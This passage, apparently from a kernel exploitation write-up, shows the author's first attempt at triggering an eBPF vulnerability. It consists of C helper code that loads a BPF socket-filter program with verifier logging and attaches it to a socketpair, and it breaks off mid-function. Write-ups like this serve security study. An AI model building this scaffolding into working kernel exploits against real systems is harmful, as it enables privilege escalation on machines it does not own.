 ## Triggering vuln
My first attempt was following:
```c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <syscall.h>
#include <linux/bpf.h>
#include <sys/socket.h>
#include "bpf_insn.h"

int socks[2] = {-1};

int bpf(int cmd, union bpf_attr *attr){
    return syscall(__NR_bpf, cmd, attr, sizeof(*attr));
}

int bpf_prog_load(union bpf_attr *attr){
    return bpf(BPF_PROG_LOAD, attr);
}

union bpf_attr* create_bpf_prog(struct bpf_insn *insns, unsigned int insn_cnt){
    union bpf_attr *attr = (union bpf_attr *) malloc(sizeof(union bpf_attr));

    attr->prog_type = BPF_PROG_TYPE_SOCKET_FILTER;
    attr->insn_cnt = insn_cnt;
    attr->insns = (uint64_t) insns;
    attr->license = (uint64_t)"";

    return attr;
}

int attach_socket(int prog_fd){
    if(socks[0] == -1 && socketpair(AF_UNIX, SOCK_DGRAM, 0, socks) < 0){
        perror("socketpair");
        exit(1);
    }
    
    if(setsockopt(socks[0], SOL_SOCKET, SO_ATTACH_BPF, &prog_fd, sizeof(prog_fd)) < 0){
        perror("setsockopt");
        exit(1);
    }
}

void setup_bpf_prog(struct bpf_insn *insns, uint insncnt){
    char log_buffer[0x4000];

    union bpf_attr *prog = create_bpf_prog(insns, insncnt);

    prog->log_level = 2;
    prog->log_buf = (uint64_t) log_buffer;
    prog->log_size = sizeof(log_buffer);
    strncpy(prog->prog_name, "stdnoerr", 16);

    int prog_fd = bpf_prog_load(prog);
    printf("%d\n", strlen(log_buffer));
    puts(log_buffer);

    if(prog_fd < 0){
        perror("prog_load");
        exit(1);
```